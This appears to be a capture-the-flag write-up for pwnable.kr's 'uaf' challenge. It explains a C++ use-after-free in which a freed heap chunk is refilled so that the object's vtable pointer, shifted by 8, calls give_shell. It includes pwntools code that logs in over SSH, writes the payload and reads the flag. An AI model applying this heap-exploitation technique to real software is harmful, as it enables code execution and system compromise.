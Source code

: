 Note: a vtable is associated to a class, and allocated objects of the class in the heap (with the new keyword) will include a chunk containing their vtable address. vtables are present in the binary. 

When we want to call functions defined inside the class, their addresses will be found in the vtable corresponding to the address present in the object's heap chunk.

In this challenge, after freeing the chunks, we can overwrite the chunks of size ``0x20`` (that contain vtable address) by the content of the file passed in ``argv[2]``. We will specify a size of 0x18 to ensure it is the ``0x20``-sized chunks that are going to be reused (0x18 will be 16-bit aligned to 0x20).

Moreover, we have a use after free vulnerability: ``m->introduce`` (supposed to call ``Man::introduce``) can still be called after the free. We are going to exploit this by modifying the address of the vtable used by the ``m`` object, thus to make it call the ``give_shell`` function.

``introduce`` is the second function for Man vtable. We have:
``*(man_vtable+0x10)``   is ``give_shell`` address
``*(man_vtable+0x10+8)`` is ``introduce``  address

Note: first function in the vtable is after a 0x10 offset. In the heap, it is ``vtable+0x10`` that is stored.

If we decrease ``(vtable+0x10)`` address by 8, trying to call ``m->introduce`` will result in calling ``m->give_shell``.

first function of the old vtable (give_shell) :
```python
old_vtable_1F =  elf.symbols["_ZTV3Man"]+0x10```
give_shell takes the place of introduce as second function :
```python
new_vtable_1F =  old_vtable_1F-8
```

```python
from pwn import *
elf = ELF("uaf")
shell = ssh("uaf", "pwnable.kr", password="guest", port=2222)
wp = shell.process(["cat", "/dev/stdin", ">>", "/tmp/payload"])
wp.send(p64(new_vtable_1F))
wp.close()

p = shell.process(["./uaf", "24", "/tmp/payload"])
print p.recv()
p.sendline("3") 
print p.recv()
p.sendline("2") 
```
It's the ``w`` heap chunk containing vtable that is going to be reused the first time. So we have to store the payload twice, since ``m->introduce`` is called before ``w->introduce``
```python
print p.recv()
p.sendline("2")
print p.recv()
p.sendline("1")
print p.recv()
p.sendline("cat flag")
print p.recv()
```

